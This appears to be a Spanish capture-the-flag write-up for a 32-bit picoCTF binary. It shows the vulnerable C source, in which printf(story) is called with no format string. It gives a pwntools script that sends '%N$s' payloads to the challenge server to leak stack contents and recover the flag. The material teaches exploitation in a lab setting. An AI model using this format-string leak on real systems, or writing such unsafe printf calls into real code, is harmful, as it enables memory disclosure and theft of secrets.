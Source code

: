 ```bash
file vuln
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID\[sha1]=17bb7adc72aff4022d6a1c451eb9adcf34df2f8c, for GNU/Linux 3.2.0, not stripped
```

```bash
checksec --file=vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   78 Symbols	 No	0	2	vuln
```

El programa devuelve lo que le mandes.

```c
./vuln
Tell me a story and then I'll tell you one >> hola
Here's a story -
hola
```

El código tiene un `printf` sin format strings, con lo cual hay una vulnerabilidad de format strings y podemos hacer un leak del stack, por ejemplo.

```c
void vuln(){
	char flag\[BUFSIZE];
	char story\[128];
	readflag(flag, FLAGSIZE);
	printf("Tell me a story and then I'll tell you one >> ");
	scanf("%127s", story);
	printf("Here's a story - \n");
	printf(story); // VULN
	printf("\n");
}
```

Como la flag se pone en el stack por el `fgets`, podemos hacer un leak de la flag.

```c
void readflag(char* buf, size_t len) {
    FILE *f = fopen("flag.txt", "r");

    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your", "own debugging flag.\n");
        exit(0);
    }
    fgets(buf, len, f); // FLAG AL STACK
}
```

Podemos hacer un código que sea un `fuzzer` que haga fuzz y saque del elemento 10 al 30, por ejemplo, como string:

```python
from pwn import *

exe = ELF("./vuln_patched")
context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("saturn.picoctf.net", 62385)
    return r

def main():
    for i in range(10, 30):
        try:
            r = conn()
            r.sendlineafter(b'>', '%{}$s'.format(i).encode())
            r.recvline()
            result = r.recvline()
            print(result)
            r.close()
        except EOFError:
            pass

if __name__ == "__main__":
    main()
```

Se abrirán y cerrarán conexiones mostrando en cada una un elemento diferente del stack, y uno de esos elementos será la flag.

```c
\[+] Opening connection to saturn.picoctf.net on port 62385: Done
b'CTF{SECRETO}\n'
```
